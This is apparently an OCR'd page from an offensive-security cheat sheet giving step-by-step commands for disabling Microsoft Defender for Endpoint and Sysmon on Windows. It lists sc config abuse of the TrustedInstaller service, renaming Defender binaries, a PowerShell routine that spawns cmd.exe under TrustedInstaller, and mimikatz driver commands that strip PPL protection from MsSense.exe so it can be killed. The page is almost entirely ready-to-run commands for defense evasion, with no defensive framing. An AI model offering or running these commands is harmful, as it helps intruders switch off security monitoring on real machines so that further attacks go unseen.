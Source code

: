 ## 03 - Disable Advanced Threat Protection

### 3.1 - Disable Endpoint

#### 3.1.1 - Command Prompt

```
C:\> sc config TrustedInstaller binpath="cmd /c sc stop diagtrack & sc config diagtrack binpath='useless value'" && sc start TrustedInstaller

C:\> whoami /groups | findstr Trusted

C:\> rename "C:\Program Files\Windows Defender Advanced Threat Protection\SenseCncProxy.exe" SenseCncProxi.exe
```

#### 3.1.2 - Powershell

```powershell
PS C:\> Set-NtTokenPrivilege SeDebugPrivilege
Start-Service TrustedInstaller
$process = Get-NtProcess -Name TrustedInstaller.exe
$token = $process.OpenToken()
$token.Groups | Where-Object ($_.$id.Name -match "TrustedInstaller")
$proc = New-Win32Process cmd.exe -CreationFlags NewConsole -ParentProcess $process
```

### 3.2 - Remove PPL Protection

Be sure to make modification in `mimidrv.c` and re-sign it.

```
mimikatz # !+

mimikatz # !processprotect /process:MsSense.exe /remove
```

```
C:\> taskkill /f /im MsSense.exe /t

C:\> sc qprotection sense

C:\> sc query sense
```

## 04 - Sysinternals

### 4.1 - Sysmon

#### 4.1.1 - Disable

Get driver for Sysmon and disable it.

